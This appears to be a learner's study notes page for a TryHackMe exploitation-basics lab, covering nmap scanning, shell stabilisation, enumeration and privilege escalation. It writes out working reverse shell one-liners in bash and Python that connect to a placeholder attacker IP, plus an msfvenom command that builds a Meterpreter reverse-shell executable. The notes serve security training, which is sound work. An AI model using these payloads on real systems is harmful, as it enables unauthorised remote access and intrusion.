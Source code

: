 # Exploitation Basics – TryHackMe Notes

📅 Date Completed: August 2025

---

## Overview
This module introduces practical exploitation fundamentals: reconnaissance and scanning, exploiting a vulnerability without a framework, using Metasploit, gaining an interactive shell (reverse/bind shells), and initial privilege escalation/post-exploitation concepts.

---

## Objectives / What the room covers
- Understand exploitation workflow: Recon → Scan → Exploit → Access → Escalate → Post-exploit.  
- Exploit a vulnerable service/application manually, then replicate with Metasploit.  
- Learn shell types (reverse and bind) and how to get an interactive shell.  
- Intro to basic privilege escalation enumeration.

---

## Practical Steps / Typical Walkthrough
1. **Recon & Scanning**
   - `nmap -sC -sV -oN nmap_scan.txt <target>` — service discovery and basic scripts.  
2. **Exploit (manual first)**
   - Inspect service banners, web pages, and any input fields.  
3. **Gain Shell**
   - Use reverse shell payloads (examples below) to get a remote shell.  
4. **Stabilize Shell**
   - Use Python PTY to get a better interactive shell:
     ```bash
     python3 -c 'import pty; pty.spawn("/bin/bash")'
     ```
5. **Post-Access Enumeration**
   - `whoami`, `id`, `uname -a`, `pwd`, `ls -la`, `ps aux`, `ip a`, `netstat -tulpn`  
6. **Privilege Escalation**
   - Check for SUID files, sudo misconfigs, exposed credentials, kernel exploits.


---

Bash reverse shell (one-liner)
bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1

Python reverse shell
python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("<attacker-ip>",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"])'

Meterpreter basics (msfvenom + msfconsole)
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=4444 -f exe -o shell.exe
# then use exploit/multi/handler in msfconsole

Challenges I Faced

Reverse shell not connecting due to wrong host/IP (container vs host).

Non-interactive shells required PTY upgrade.

Missed a simple SUID binary until full enumeration.

Key Takeaways

Manual exploitation teaches fundamentals more than immediately using frameworks.

Netcat and one-liner shells are extremely useful for quick access.

Thorough enumeration is essential for privilege escalation.
